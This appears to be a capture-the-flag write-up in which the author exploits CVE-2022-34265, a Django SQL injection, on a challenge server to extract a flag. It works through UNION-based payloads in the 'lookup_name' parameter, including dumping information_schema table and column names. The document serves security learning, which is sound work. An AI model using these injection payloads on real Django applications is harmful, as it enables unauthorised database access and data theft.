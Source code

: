 ![](attachments/20220729170015.png)

It seems we have a web application running on port 80 and the homepage says this

![](attachments/20220729170135.png)

So we know it's a CVE and Google gave the following results

![](attachments/20220729170337.png)

It looks like we have [CVE-2022-34265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34265) which is an SQL injection vulnerability in Django. The Tower instruction was misleading though since it says it's a CVE for PHP framework but it's actually a CVE for Django which is a Python framework.

Visiting the paths specified in the homepage, we got the following results

![](attachments/20220729171727.png)

![](attachments/20220729171758.png)

I did some more research about the CVE and found a PoC here https://github.com/aeyesec/CVE-2022-34265

Trying the attack mentioned in the PoC resulted in Django error page for `/extract` path but there was no error on `/trunc` path.

![](attachments/20220729172205.png)

![](attachments/20220729172300.png)

So I tried a simpler attack by adding a single quote (`'` or `%27`) to the `year` parameter and it seems the `/trunc` path may not be vulnerable to SQL injection.

![](attachments/20220729172723.png)

![](attachments/20220729172640.png)

It also seems the challenge site is not setup the same way as the PoC site e.g. It uses MariaDB instead of PostgreSQL. Anyway, we know that we should focus on the `/extract` path and use MySQL syntax for payload.

From now on it was a payload guessing game for a couple of hours until I tried using `UNION` statement like this

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1--
```

and got an interesting error message

![](attachments/20220729173355.png)

After some more testing, I found that it needs 7 columns for `UNION` statement to work. The query I used now looks like this

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, 2, 3, 4, 5, 6, 7--
```

but now there is another error message

![](attachments/20220729173603.png)

It seems Django tried to convert the query result into 'isoformat' so it must be related to some date/time stuff...

I took a step back and looked at the output of the normal `/extract` query result and found that each element in the array looks like this

```json
{
  "model": "secplayground.experiment",
  "pk": null,
  "fields": {
    "start_datetime": "2015-05-03T00:00:00",
    "start_date": "2015-05-03",
    "start_time": "2022-07-29T09:48:50",
    "end_datetime": "2015-05-10T00:00:00",
    "end_date": "2015-05-10",
    "end_time": "2022-07-29T09:48:50"
  }
}
```

My guess is the 7 columns in the query we tested above should correspond to the "pk", "start_datetime", "start_date", "start_time", "end_datetime", "end_date", "end_time" attributes respectively.

Following this theory, the columns that need to be in datetime format should be the last 6 columns. So I adjusted the query accordingly by using `now()` instead of `2..7`

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, now(), now(), now(), now(), now(), now()--
```

and now we got a promising output

![](attachments/20220729185014.png)

To confirm that it works, I tried changing `1` to `"AAA"`

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT "AAA", now(), now(), now(), now(), now(), now()--
```

And this time we got this. So we can use "pk" column as placeholder for the thing we want to query.

![](attachments/20220729185912.png)

Now we need to figure out the name of the table and column in the database that contains the flag. This can be done with two more queries...

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT CONCAT(table_name, '~', column_name), now(), now(), now(), now(), now(), now() FROM information_schema.columns--
```

This will dump all table and column names in the database into the "pk" column.

After searching for `"flag"` using the browser's search function, we found the prime candidate for table and column names that we need.

![](attachments/20220729190255.png)

So the final query would be

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT flag_value, now(), now(), now(), now(), now(), now() FROM FLAG--
```

And now we got the flag.

![](attachments/20220729190813.png)

```
Flag: web{Bwq786AthM}
```
